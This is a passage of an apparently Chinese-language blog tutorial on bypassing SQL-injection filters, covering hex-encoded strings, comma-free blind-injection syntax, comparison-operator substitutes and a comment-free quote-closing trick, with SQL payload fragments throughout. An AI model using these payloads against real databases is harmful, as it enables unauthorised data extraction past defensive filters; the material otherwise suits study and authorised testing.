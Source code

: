<p>在SQL语句的数据区域可以采用十六进制绕过敏感词汇</p>
<pre class="prettyprint"><code class="language-sql hljs "><span class="hljs-operator"><span class="hljs-keyword">select</span> a <span class="hljs-keyword">from</span> yz <span class="hljs-keyword">where</span> b=<span class="hljs-number">0x32</span>;</span>
<span class="hljs-operator"><span class="hljs-keyword">select</span> * <span class="hljs-keyword">from</span> yz <span class="hljs-keyword">where</span> b=<span class="hljs-keyword">char</span>(<span class="hljs-number">0x32</span>);</span>
<span class="hljs-operator"><span class="hljs-keyword">select</span> * <span class="hljs-keyword">from</span> yz <span class="hljs-keyword">where</span> b=<span class="hljs-keyword">char</span>(<span class="hljs-number">0x67</span>)+<span class="hljs-keyword">char</span>(<span class="hljs-number">0x75</span>)+<span class="hljs-keyword">char</span>(<span class="hljs-number">0x65</span>)+<span class="hljs-keyword">char</span>(<span class="hljs-number">0x73</span>)+<span class="hljs-keyword">char</span>(<span class="hljs-number">0x74</span>)



<span class="hljs-keyword">select</span> column_name  <span class="hljs-keyword">from</span> information_schema.tables <span class="hljs-keyword">where</span> table_name=<span class="hljs-string">"users"</span>
<span class="hljs-keyword">select</span> column_name  <span class="hljs-keyword">from</span> information_schema.tables <span class="hljs-keyword">where</span> table_name=<span class="hljs-number">0x7573657273</span></span></code></pre>
<h2 id="7逗号绕过">（7）逗号绕过</h2>
<p>在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方式来解决。 <br>
substr(),mid()</br></p>
<pre class="prettyprint"><code class="language-sql hljs ">mid(user() from 1 for 1)
substr(user() from 1 for 1)
<span class="hljs-operator"><span class="hljs-keyword">select</span> substr(<span class="hljs-keyword">user</span>()<span class="hljs-keyword">from</span> -<span class="hljs-number">1</span>) <span class="hljs-keyword">from</span> yz ;</span>
<span class="hljs-operator"><span class="hljs-keyword">select</span> ascii(substr(<span class="hljs-keyword">user</span>() <span class="hljs-keyword">from</span> <span class="hljs-number">1</span> <span class="hljs-keyword">for</span> <span class="hljs-number">1</span>)) &lt; <span class="hljs-number">150</span>;</span>

同时也可以利用替换函数
<span class="hljs-operator"><span class="hljs-keyword">select</span> <span class="hljs-keyword">left</span>(<span class="hljs-keyword">database</span>(),<span class="hljs-number">2</span>)&gt;<span class="hljs-string">'tf'</span>;</span></code></pre>
<p>limit</p>
<pre class="prettyprint"><code class="language-sql hljs ">selete * from testtable limit 2,1;
selete * from testtable limit 2 offset 1;</code></pre>
<h2 id="8比较符绕过">（8）比较符(&lt;,&gt;)绕过</h2>
<p>同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到greatest，strcmp来进行绕过了。</p>
<pre class="prettyprint"><code class="language-sql hljs "><span class="hljs-operator"><span class="hljs-keyword">select</span> * <span class="hljs-keyword">from</span> users <span class="hljs-keyword">where</span> id=<span class="hljs-number">1</span> <span class="hljs-keyword">and</span> greatest(ascii(substr(<span class="hljs-keyword">database</span>(),<span class="hljs-number">0</span>,<span class="hljs-number">1</span>)),<span class="hljs-number">64</span>)=<span class="hljs-number">64</span>
<span class="hljs-keyword">select</span> strcmp(<span class="hljs-keyword">left</span>(<span class="hljs-keyword">database</span>(),<span class="hljs-number">1</span>),<span class="hljs-number">0x32</span>);</span>#lpad('asd',2,0)
if(substr(id,1,1)in(0x41),1,3)</code></pre>
<p>新学习了一种骚骚的注入姿势in、between、order by <br>
<code>select * from yz where a in ('aaa');</code> <br>
<code>select substr(a,1,1) in ('a') from yz ;</code></br></br></p>
<p><code>select * from yz where a between 'a' and 'b';</code> <br>
<code>select * from yz where a between 0x89 and 0x90;</code></br></p>
<p><code>select * from yz union select 1,2,3 order by 1;</code> <br>
也可以用like，根据排列顺序进行真值判断</br></p>
<h2 id="9注释符绕过">（9）注释符绕过</h2>
<p>在注入时的注释符一般为<code># --</code>当两者不能用时就不能闭合引号 <br>
这里介绍一个奇淫巧技 <br>
<code>select 1,2,3 from yz where '1'/1=(1=1)/'1'='1'</code> <br>